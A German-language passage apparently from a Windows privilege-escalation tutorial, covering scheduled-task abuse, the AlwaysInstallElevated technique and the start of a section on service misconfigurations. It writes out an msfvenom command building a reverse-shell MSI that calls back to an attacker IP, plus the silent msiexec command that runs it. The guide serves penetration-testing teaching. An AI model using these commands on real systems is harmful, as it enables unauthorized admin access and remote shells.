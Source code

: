 Wenn die geplante Aufgabe das nächste Mal ausgeführt wird, sollten wir die Reverse Shell mit den Rechten von `taskusr1` erhalten.

```
# Task manuell starten
C:\> schtasks /run /tn vulntask
```



### AlwaysInstallElevated

Windows-Installationsdateien (auch als .msi-Dateien bekannt) werden verwendet, um Anwendungen auf dem System zu installieren. Sie werden normalerweise mit der Berechtigungsstufe des Benutzers ausgeführt, der sie startet. Sie können jedoch so konfiguriert werden, dass sie von jedem Benutzerkonto (auch von einem nicht privilegierten) mit höheren Rechten ausgeführt werden. Dies könnte es uns ermöglichen, eine bösartige MSI-Datei zu erstellen, die mit Administratorrechten ausgeführt wird.

Für diese Methode müssen zwei Registrywerte festgelegt werden. Diese können mit den folgenden Befehlen über die Befehlszeile abgefragt werden.

```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Um diese Sicherheitslücke ausnutzen zu können, müssen beide Werte gesetzt sein. Andernfalls ist ein Ausnutzen nicht möglich. Wenn diese Werte gesetzt sind, kann mit msfvenom eine bösartige .msi-Datei erzeugt werden:

{% code overflow="wrap" %}
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.142.14 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
{% endcode %}

Da es sich um eine Reverse Shell handelt, muss auch das entsprechend konfigurierte Metasploit Handler-Modul ausgeführt werden. Sobald die erstellte Datei übertragen wurde, kann das Installationsprogramm mit dem unten stehenden Befehl ausgeführt werden, um die Reverse Shell zu erhalten:

```shell-session
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```



## Service-Fehlkonfigurationen

### Überblick Services

<pre><code>sc qc &#x3C;service_name>
# Anzeige der Konfigurationsinformationen eines Service

sc stop/start &#x3C;service_name>
# Service stoppen / starten
